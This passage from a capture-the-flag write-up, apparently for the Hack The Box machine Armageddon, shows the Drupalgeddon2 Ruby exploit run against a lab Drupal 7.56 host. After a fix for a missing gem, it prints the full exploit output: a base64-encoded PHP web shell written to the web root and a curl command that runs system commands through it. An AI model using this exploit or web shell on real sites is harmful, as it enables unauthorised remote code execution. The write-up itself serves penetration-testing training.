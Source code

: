 However, the [troubleshooting](https://github.com/dreadlocked/Drupalgeddon2#troubleshooting) section for the repo has a fix for this specific error:

> Whenever getting a "*cannot load such file* ... (LoadError)" type of error, do run `sudo gem install <missing dependency>`. In particular, you may need to install the *highline* dependency with `sudo gem install highline`

This issue can be fixed by installing a ruby gem called `highline`.

```sh
[tyco㉿4YE: ~/htb/armageddon/Drupalgeddon2]$ sudo gem install highline
[sudo] password for tyco: 

Fetching highline-2.0.3.gem
Successfully installed highline-2.0.3
Parsing documentation for highline-2.0.3
Installing ri documentation for highline-2.0.3
Done installing documentation for highline after 2 seconds
1 gem installed
```

Now run the ruby script again, and it should work and create an interactive shell for you. This exploit is much better than the python script above since we actually have an interactive shell.

```sh
[tyco㉿4YE: ~/htb/armageddon/Drupalgeddon2]$ ./drupalgeddon2.rb http://10.10.10.233
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.233/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.233/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.56
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn\'t an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo EADOSKML
[+] Result : EADOSKML
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://10.10.10.233/shell.php)
[i] Response: HTTP 404 // Size: 5
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://10.10.10.233/shell.php' -d 'c=hostname'
armageddon.htb>>
```

